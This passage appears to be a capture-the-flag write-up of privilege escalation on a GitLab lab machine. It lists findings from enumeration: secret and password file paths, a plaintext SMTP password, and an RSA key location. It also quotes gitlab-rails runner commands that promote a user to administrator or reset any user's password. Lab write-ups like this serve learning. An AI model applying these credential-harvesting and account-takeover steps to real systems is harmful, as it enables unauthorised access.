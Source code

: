 The exploit works and provides user flag in `/home/dude/user.txt`.

## Privilege escalation

Interesting things while running privilege escalation enumeration:

- `/var/opt/gitlab/gitlab-rails/etc/secrets.yml`

- Uncommon password files:

```s
passwd file: /etc/cron.daily/passwd
passwd file: /etc/pam.d/passwd
passwd file: /usr/bin/passwd
passwd file: /usr/share/lintian/overrides/passwd
```
- Since `gitlab-rails` was reported, all users registered with GitLab can be dumped and all passwords can be found. I see my dummy user too, I know its password (plaintext) and its encrypted version. A password cracking attack on admin account (?)

- An interesting thing noted:

```s
If you have enough privileges, you can make an account under your control administrator by running: gitlab-rails runner 'user = User.find_by(email: "youruser@example.com"); user.admin = TRUE; user.save!'
Alternatively, you could change the password of any user by running: gitlab-rails runner 'user = User.find_by(email: "admin@example.com"); user.password = "pass_peass_pass"; user.password_confirmation = "pass_peass_pass"; user.save!'
```

- `smtp password`

```s
/opt/backup/gitlab.rb
gitlab_rails['smtp_password'] = "wW59U!ZKMbG9+*#h"
```

- Another stuff found:

```s
/opt/gitlab/embedded/service/gitlab-rails/config/gitlab.yml
  repositories:
    # Paths where repositories can be stored. Give the canonicalized absolute pathname.
    # NOTE: REPOS PATHS MUST NOT CONTAIN ANY SYMLINK!!!
    storages: {"default":{"path":"/var/opt/gitlab/git-data/repositories","gitaly_address":"unix:/var/opt/gitlab/gitaly/gitaly.socket"}}

--
  repositories:
    storages:
      default: { "path": "tmp/tests/repositories/" }
  gitlab_shell:
    path: tmp/tests/gitlab-shell/
```

- RSA private key found in `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml`
